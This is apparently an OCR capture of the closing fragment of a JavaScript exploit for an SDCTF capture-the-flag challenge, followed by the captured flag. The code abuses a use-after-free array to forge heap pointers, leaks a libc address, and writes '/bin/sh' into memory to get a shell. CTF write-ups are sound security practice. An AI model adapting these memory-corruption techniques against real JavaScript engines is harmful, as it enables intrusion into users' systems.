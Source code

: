 ```js

				uaf_arr[6] = heap_base_low + 0x200;
				uaf_arr[7] = heap_base_high;

				uaf_arr[0xe] = heap_base_low;
				uaf_arr[0xf] = heap_base_high;

				let libc_leak_low = read_dword(0x100);
				let libc_leak_high = read_dword(0x104);
				console.log(libc_leak_high.toString(16));
				console.log(libc_leak_low.toString(16));

				arr[0xa8] = libc_leak_low - 0x1a9a50;
				arr[0xa9] = libc_leak_high;

				arr[0xb0] = 0x6e69622f;
				arr[0xb1] = 0x0068732f;

				var x = {a: 1};
			});
		});
	});
});
```

The flag: `sdctf{i_PrOMlse_7heRe_1S_n0_UniN7end3D_SOlu7i0n_tHl5_tImE}`
